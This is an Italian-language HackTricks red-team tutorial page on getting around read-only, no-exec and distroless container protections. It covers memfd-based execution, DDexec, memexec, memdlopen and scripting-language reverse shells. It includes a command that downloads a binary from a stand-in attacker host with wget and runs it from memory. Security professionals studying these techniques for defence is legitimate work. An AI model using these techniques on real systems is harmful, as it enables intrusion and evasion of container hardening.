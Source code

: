 # Bypass FS protections: read-only / no-exec / Distroless

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Se sei interessato a una **carriera di hacking** e a hackare l'inhackabile - **stiamo assumendo!** (_richiesta di polacco fluente scritto e parlato_).

{% embed url="https://www.stmcyber.com/careers" %}

## Video

Nei seguenti video puoi trovare le tecniche menzionate in questa pagina spiegate più in dettaglio:

* [**DEF CON 31 - Esplorare la manipolazione della memoria Linux per stealth e evasione**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Intrusioni stealth con DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## scenario read-only / no-exec

È sempre più comune trovare macchine linux montate con **protezione del file system in sola lettura (ro)**, specialmente nei container. Questo perché eseguire un container con file system ro è facile come impostare **`readOnlyRootFilesystem: true`** nel `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Tuttavia, anche se il file system è montato come ro, **`/dev/shm`** sarà comunque scrivibile, quindi è falso che non possiamo scrivere nulla nel disco. Tuttavia, questa cartella sarà **montata con protezione no-exec**, quindi se scarichi un binario qui **non sarai in grado di eseguirlo**.

{% hint style="warning" %}
Da una prospettiva di red team, questo rende **complicato scaricare ed eseguire** binari che non sono già nel sistema (come backdoor o enumeratori come `kubectl`).
{% endhint %}

## Bypass più semplice: Script

Nota che ho menzionato i binari, puoi **eseguire qualsiasi script** purché l'interprete sia all'interno della macchina, come uno **script shell** se `sh` è presente o uno **script python** se `python` è installato.

Tuttavia, questo non è sufficiente per eseguire la tua backdoor binaria o altri strumenti binari che potresti aver bisogno di eseguire.

## Bypass in memoria

Se vuoi eseguire un binario ma il file system non lo consente, il modo migliore per farlo è **eseguirlo dalla memoria**, poiché le **protezioni non si applicano lì**.

### Bypass syscall FD + exec

Se hai alcuni potenti motori di script all'interno della macchina, come **Python**, **Perl** o **Ruby**, potresti scaricare il binario da eseguire dalla memoria, memorizzarlo in un descrittore di file in memoria (`create_memfd` syscall), che non sarà protetto da quelle protezioni e poi chiamare una **syscall `exec`** indicando il **fd come file da eseguire**.

Per questo puoi facilmente usare il progetto [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Puoi passargli un binario e genererà uno script nel linguaggio indicato con il **binario compresso e codificato in b64** con le istruzioni per **decodificarlo e decomprimerlo** in un **fd** creato chiamando la syscall `create_memfd` e una chiamata alla syscall **exec** per eseguirlo.

{% hint style="warning" %}
Questo non funziona in altri linguaggi di scripting come PHP o Node perché non hanno alcun **modo predefinito per chiamare syscall raw** da uno script, quindi non è possibile chiamare `create_memfd` per creare il **memory fd** per memorizzare il binario.

Inoltre, creare un **fd regolare** con un file in `/dev/shm` non funzionerà, poiché non ti sarà permesso eseguirlo a causa della **protezione no-exec** che si applicherà.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) è una tecnica che ti consente di **modificare la memoria del tuo stesso processo** sovrascrivendo il suo **`/proc/self/mem`**.

Pertanto, **controllando il codice assembly** che viene eseguito dal processo, puoi scrivere un **shellcode** e "mutare" il processo per **eseguire qualsiasi codice arbitrario**.

{% hint style="success" %}
**DDexec / EverythingExec** ti permetterà di caricare ed **eseguire** il tuo **shellcode** o **qualsiasi binario** dalla **memoria**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Per ulteriori informazioni su questa tecnica controlla il Github o:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) è il passo naturale successivo di DDexec. È un **DDexec shellcode demonizzato**, quindi ogni volta che vuoi **eseguire un binario diverso** non è necessario rilanciare DDexec, puoi semplicemente eseguire il shellcode di memexec tramite la tecnica DDexec e poi **comunicare con questo demone per passare nuovi binari da caricare ed eseguire**.

Puoi trovare un esempio su come usare **memexec per eseguire binari da una reverse shell PHP** in [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Con uno scopo simile a DDexec, la tecnica [**memdlopen**](https://github.com/arget13/memdlopen) consente un **modo più semplice per caricare binari** in memoria per eseguirli successivamente. Potrebbe anche consentire di caricare binari con dipendenze.

## Bypass Distroless

### Cos'è distroless

I container distroless contengono solo i **componenti minimi necessari per eseguire un'applicazione o servizio specifico**, come librerie e dipendenze di runtime, ma escludono componenti più grandi come un gestore di pacchetti, shell o utilità di sistema.

L'obiettivo dei container distroless è **ridurre la superficie di attacco dei container eliminando componenti non necessari** e minimizzando il numero di vulnerabilità che possono essere sfruttate.

### Reverse Shell

In un container distroless potresti **non trovare nemmeno `sh` o `bash`** per ottenere una shell normale. Non troverai nemmeno binari come `ls`, `whoami`, `id`... tutto ciò che di solito esegui in un sistema.

{% hint style="warning" %}
Pertanto, **non** sarai in grado di ottenere una **reverse shell** o **enumerare** il sistema come fai di solito.
{% endhint %}

Tuttavia, se il container compromesso sta eseguendo ad esempio un'app Flask, allora Python è installato, e quindi puoi ottenere una **reverse shell Python**. Se sta eseguendo Node, puoi ottenere una reverse shell Node, e lo stesso vale per quasi qualsiasi **linguaggio di scripting**.

{% hint style="success" %}
Utilizzando il linguaggio di scripting potresti **enumerare il sistema** utilizzando le capacità del linguaggio.
{% endhint %}

Se non ci sono protezioni **`read-only/no-exec`** potresti abusare della tua reverse shell per **scrivere nel file system i tuoi binari** e **eseguirli**.

{% hint style="success" %}
Tuttavia, in questo tipo di container queste protezioni di solito esistono, ma potresti utilizzare le **tecniche di esecuzione in memoria precedenti per bypassarle**.
{% endhint %}

Puoi trovare **esempi** su come **sfruttare alcune vulnerabilità RCE** per ottenere reverse shell di linguaggi di scripting ed eseguire binari dalla memoria in [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Se sei interessato a una **carriera nel hacking** e a hackare l'inhackabile - **stiamo assumendo!** (_richiesta di polacco fluente scritto e parlato_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
